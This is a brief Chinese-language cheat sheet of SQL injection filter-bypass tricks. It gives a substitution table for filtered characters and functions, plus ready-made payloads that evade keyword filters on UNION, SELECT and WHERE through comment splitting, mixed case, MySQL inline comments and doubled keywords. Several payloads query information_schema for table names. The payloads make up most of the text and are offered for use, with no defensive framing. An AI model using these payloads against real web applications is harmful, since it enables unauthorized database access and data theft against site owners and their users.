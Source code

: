 ## 常见问题

1. 有时存在查询语句长度限制（Unterminated string literal：未终结的字符串）

## 绕过技巧

| 被过滤内容         | 替代                |
| ------------- | ----------------- |
| 空格            | `/**/` 或者 `()`    |
| =             | `like`            |
| substring/mid | `right` 或者 `left` |

### 绕过union，select，where等

#### 使用注释符绕过

常用注释符：

//，-- , /\*\*/, #, --+, -- -, ;,%00,--a

用法：

`U/**/NION/**/SE/**/LECT/**/user，pwd from user`

#### 使用大小写绕过

`id=-1'UnIoN/**/SeLeCT`

#### 内联注释绕过

`id=-1'/*!UnIoN*/SeLeCT1,2,concat(/*!table_name*/) FrOM/*information_schema*/.tables/*!WHERE*//*!TaBlE_ScHeMa*/like database()#`

#### 双关键字绕过

`id=-1'UNIunionONSeLselectECT1,2,3–-`
